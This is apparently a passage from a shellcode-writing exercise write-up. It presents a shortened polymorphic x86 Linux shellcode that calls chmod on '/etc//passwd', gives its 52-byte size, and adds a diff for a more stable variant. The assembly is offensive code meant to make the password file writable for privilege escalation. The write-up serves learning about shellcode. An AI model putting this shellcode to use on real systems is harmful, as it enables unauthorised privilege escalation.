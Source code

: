 ```nasm
    ; store into EBX the pointer to "/etc//passwd"
    push esp
    pop ebx

    ; call chmod()
    int 0x80

    ; invoke the exit syscall
    ; exit code is set to ESP, but it's not important
    mov eax, edx
    inc eax
    int 0x80
```

The original shellcode uses `57` bytes, while this one uses `52` bytes:

```bash
objcopy -O binary -j .text ./shellcode.o /dev/stdout | wc -c

# 52
```

Although, I managed to make it smaller, it requires one **condition**:

- the call to `chmod` **must** be successful, hence store `0` into `EAX`

If the register `EAX` isn't set to 0, then the next call will throw a `SIGSEGV` signal, and the program will crash.

### Focus on stability

For this reason, I also wrote a slightly different version that handles this case, not the `SIGSEGV` error but clearing the `EAX` register:

```patch
--- polymorphic_tiny.nasm       2022-01-12 07:54:18.947129214 +0000
+++ polymorphic_stable.nasm     2022-01-12 07:53:52.437239057 +0000
@@ -37,7 +37,9 @@
     ; call chmod()
     int 0x80
 
+    ; set EAX to 0 and push it to the stack;
     ; like before, it acts as the string terminator
+    mov eax, edx
     push eax
 
     ; push "/etc//passwd" to the stack
@@ -60,5 +62,6 @@
 
     ; invoke the exit syscall
     ; exit code is set to ESP, but it's not important
+    mov eax, edx
     inc eax
     int 0x80
```
